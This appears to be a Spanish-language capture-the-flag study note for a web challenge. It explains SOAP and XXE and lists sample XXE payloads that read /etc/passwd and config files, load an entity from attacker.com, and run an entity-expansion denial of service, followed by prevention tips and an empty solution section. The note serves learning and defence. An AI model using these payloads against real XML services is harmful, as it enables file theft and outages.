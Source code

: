 Description The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Additional details will be available after launching your challenge instance.

#### Descripción

El proyecto web se realizó con prisas y no se realizó ninguna evaluación de seguridad. ¿Puedes leer el archivo /etc/passwd?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

**SOAP** (Simple Object Access Protocol) es un protocolo de comunicación basado en XML que permite intercambiar información entre aplicaciones a través de redes. Se utiliza comúnmente en arquitecturas orientadas a servicios (SOA) y es independiente de la plataforma y el lenguaje de programación.

### Características principales:

- **Basado en XML**: El formato de los mensajes es XML, lo que facilita la interoperabilidad entre diferentes tecnologías.
    
- **Transporte independiente**: Puede utilizar varios protocolos como HTTP, SMTP, entre otros.
    
- **Seguro y confiable**: Soporta estándares de seguridad como WS-Security.
    
- **Soporta RPC**: Permite hacer llamadas remotas a funciones o procedimientos de otras aplicaciones.
    

### Estructura de un mensaje SOAP:

1. **Envelope**: Contenedor principal del mensaje.
    
2. **Header**: Información adicional (opcional).
    
3. **Body**: Contiene los datos del mensaje (obligatorio).
    
4. **Fault**: Información sobre errores (opcional).
    

### Usos comunes:

- Integración de sistemas empresariales.
    
- Servicios web seguros y confiables.
    
- Aplicaciones que requieren transacciones complejas y seguridad avanzada.
    

En resumen, SOAP es ideal para entornos donde se requiere interoperabilidad, seguridad y transacciones complejas, aunque es más pesado y formal comparado con otros protocolos como REST.

### Ejemplo de un mensaje SOAP:
```
<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://www.example.com/webservice">
   <soapenv:Header/>
   <soapenv:Body>
      <web:GetUserInfo>
         <web:UserId>12345</web:UserId>
      </web:GetUserInfo>
   </soapenv:Body>
</soapenv:Envelope>

```

#### XXE:
**XXE** (XML External Entity) es una vulnerabilidad que ocurre cuando una aplicación procesa archivos XML y no valida correctamente las entidades externas. Los atacantes pueden explotar esta vulnerabilidad para acceder a archivos locales, realizar ataques de denegación de servicio (DoS) o exfiltrar información de manera maliciosa.

### Ejemplos de **payloads** sencillos de **XXE**:

1. **Leer archivo local (como `/etc/passwd` en Linux)**:
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <root>
      <data>&xxe;</data>
    </root>
    ```
    
    - Intenta leer el archivo `/etc/passwd` en sistemas Linux.
        
2. **Denegación de servicio (DoS) - Bomba de entidades**:
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
      <!ENTITY xxe "&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;">
    ]>
    <foo>
      <bar>&xxe;</bar>
    </foo>
    ```
    
    - Genera una gran expansión de entidades, agotando los recursos del sistema.
        
3. **Leer contenido remoto (desde un servidor controlado por el atacante)**:
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
      <!ENTITY xxe SYSTEM "http://attacker.com/malicious-data">
    ]>
    <root>
      <data>&xxe;</data>
    </root>
    ```
    
    - Intenta cargar un archivo desde un servidor controlado por el atacante.
        
4. **Leer archivo de configuración sensible**:
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
      <!ENTITY config SYSTEM "file:///path/to/config.xml">
    ]>
    <root>
      <data>&config;</data>
    </root>
    ```
    
    - Intenta incluir un archivo de configuración con información sensible.
        

---

### Prevención:

- Deshabilitar la resolución de entidades externas en los parsers XML.
    
- Usar parsers XML seguros que no permitan la carga de entidades externas.
    
- Validar y filtrar adecuadamente cualquier entrada de XML antes de procesarla.
![[Pasted image 20250402122258.png]]
![[Pasted image 20250402122514.png]]


## Solución 
```

```
